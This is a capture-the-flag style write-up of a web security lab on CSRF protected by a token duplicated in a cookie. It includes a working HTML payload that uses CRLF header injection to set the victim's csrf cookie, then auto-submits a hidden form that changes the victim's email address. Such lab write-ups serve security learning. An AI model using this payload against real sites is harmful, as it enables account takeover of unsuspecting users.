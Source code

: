 # CSRF where token is duplicated in cookie
# Objective
This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter` 

# Solution
## Analysis
This website uses duplicated `csrf` token which is duplicated as cookie value.

|![](Images/image-17.png)|
|:--:| 
| *Test of change email functionality* |

Moreover, latest search is stored as cookie value in user browser - search term is reflected in the Set-Cookie header.

|![](Images/image-22.png)|
|:--:| 
| *Cookie - Latest search term* |
|![](Images/image-23.png)|
| *Set-Cookie - Latest search term* |
|![](Images/image-21.png)|
| *Cookie - Latest search term* |


## Exploitation
In order to solve the lab the following steps must be completed:
- Craft correct payload (below)
  - Create a URL to inject your `csrf` cookie into the victim's browser
  - Craft POST request to `/my-account/change-email` with valid `csrf` token
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

URL encoded characters `%0d%0a` are `\r\n` (carriage return and line feed). They are used to seperate headers in HTTP/1.1 requests.

```html
<form method="POST" action="https://0a94007c04d795cc81ea2f0100720054.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
    <input type="hidden" name="csrf" value="dXzgLm0ug5r3yitGeoXZtsLlIfhGFh5W">
</form>

<img src="https://0a94007c04d795cc81ea2f0100720054.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=dXzgLm0ug5r3yitGeoXZtsLlIfhGFh5W%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

|![](Images/image-19.png)|
|:--:| 
| *Test of csrf cookie injection - View exploit option* |
|![](Images/image-20.png)|
| *URL decoded payload* |
|![](Images/image-18.png)|
| *Exploit server configuration* |

